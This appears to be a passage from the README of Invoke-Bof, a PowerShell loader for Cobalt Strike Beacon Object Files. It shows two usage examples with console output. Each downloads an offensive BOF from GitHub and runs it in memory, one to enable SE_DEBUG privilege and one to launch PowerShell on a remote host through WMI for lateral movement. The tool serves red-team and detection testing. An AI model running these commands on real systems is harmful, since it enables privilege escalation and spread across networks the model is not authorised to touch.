 ```

```

We can try to detect an attacker that tries to enable *SE_DEBUG* privilege:

```
> $BOFBytes = (Invoke-WebRequest -Uri "https://github.com/EspressoCake/Toggle_Token_Privileges_BOF/raw/main/dist/toggle_privileges_bof.x64.o").Content
> Invoke-Bof -BOFBytes $BOFBytes -EntryPoint enable -ArgumentList 20



██╗███╗   ██╗██╗   ██╗ ██████╗ ██╗  ██╗███████╗    ██████╗  ██████╗ ███████╗
██║████╗  ██║██║   ██║██╔═══██╗██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗██╔════╝
██║██╔██╗ ██║██║   ██║██║   ██║█████╔╝ █████╗█████╗██████╔╝██║   ██║█████╗  
██║██║╚██╗██║╚██╗ ██╔╝██║   ██║██╔═██╗ ██╔══╝╚════╝██╔══██╗██║   ██║██╔══╝  
██║██║ ╚████║ ╚████╔╝ ╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝██║     
╚═╝╚═╝  ╚═══╝  ╚═══╝   ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝ ╚═╝     
                                               
  [v0.1 Made with love by Airbus CERT https://github.com/airbus-cert]



[+] Mapping of .text    at  0x133e0ab0000
[+] Mapping of .data    at  0x133e0bf0000
[+] Mapping of .xdata   at  0x133e0c20000
[+] Mapping of .pdata   at  0x133e0c30000
[+] Mapping of .rdata   at  0x133e0c40000
[+] Mapping of /4       at  0x133e0c50000
[+] Jump into beacon at 0x133e0ab0c10
****************************************************************************
Authors:
	@the_bit_diddler
	@hackersoup

You are not currently in an administrative session. Come again later!

****************************************************************************


```

You want to execute a process using WMI create process:

```
> $BOFBytes = (Invoke-WebRequest -Uri "https://github.com/Yaxser/CobaltStrike-BOF/raw/master/WMI%20Lateral%20Movement/ProcCreate.x64.o").Content
> Invoke-Bof -BOFBytes $BOFBytes -EntryPoint go -ArgumentList "\\COMPUTER\ROOT\CIMV2","domain","username","username","cmd.exe /C powershell.exe",1 -UnicodeStringParameter


██╗███╗   ██╗██╗   ██╗ ██████╗ ██╗  ██╗███████╗    ██████╗  ██████╗ ███████╗
██║████╗  ██║██║   ██║██╔═══██╗██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗██╔════╝
██║██╔██╗ ██║██║   ██║██║   ██║█████╔╝ █████╗█████╗██████╔╝██║   ██║█████╗
██║██║╚██╗██║╚██╗ ██╔╝██║   ██║██╔═██╗ ██╔══╝╚════╝██╔══██╗██║   ██║██╔══╝
██║██║ ╚████║ ╚████╔╝ ╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝██║
╚═╝╚═╝  ╚═══╝  ╚═══╝   ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝ ╚═╝

  [v0.1 Made with love by Airbus CERT https://github.com/airbus-cert]



[+] Mapping of .text at  0x2e940940000
[+] Mapping of /4 at  0x2e95a880000
[+] Mapping of /30 at  0x2e95a890000
```